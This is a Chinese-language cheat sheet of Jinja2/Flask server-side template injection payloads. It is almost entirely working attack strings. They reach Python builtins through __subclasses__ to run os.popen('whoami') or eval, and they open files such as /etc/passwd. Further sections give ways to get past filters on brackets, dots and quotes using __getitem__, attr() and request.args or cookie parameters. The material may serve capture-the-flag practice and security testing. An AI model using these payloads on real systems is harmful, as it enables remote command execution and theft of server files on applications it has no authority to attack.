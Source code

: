 ```
原理：找到含有 __builtins__ 的类，利用即可。
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```
**参考文章**：https://blog.csdn.net/2301_77485708/article/details/132467976


### 有过滤情况

#### 绕过[]
```
1、使用__getitem__绕过
{{().__class__.__bases__[0]}}
可替换为
{{().__class__.__bases__.__getitem__(0)}}

```

#### 绕过.
```
1.使用中括号[]绕过

{{().__class__}} 
可替换为:
{{()["__class__"]}}

举例：
{{()['__class__']['__base__']['__subclasses__']()[433]['__init__']['__globals__']['popen']('whoami')['read']()}}


2.使用attr()绕过

attr()函数是Python内置函数之一，用于获取对象的属性值或设置属性值。它可以用于任何具有属性的对象，例如类实例、模块、函数等。

{{().__class__}} 
可替换为：
{{()|attr("__class__")}}
{{getattr('',"__class__")}}

举例：
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(65)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
```

#### 绕过单双引号
```
1.request绕过

{{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd    
#分析：
request.args 是flask中的一个属性,为返回请求的参数,这里把path当作变量名,将后面的路径传值进来,进而绕过了引号的过滤。
若args被过滤了，还可以使用values来接受GET或者POST参数。

其它例子：
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.cookies.arg1](request.cookies.arg2).read()}}
Cookie:arg1=open;arg2=/etc/passwd

```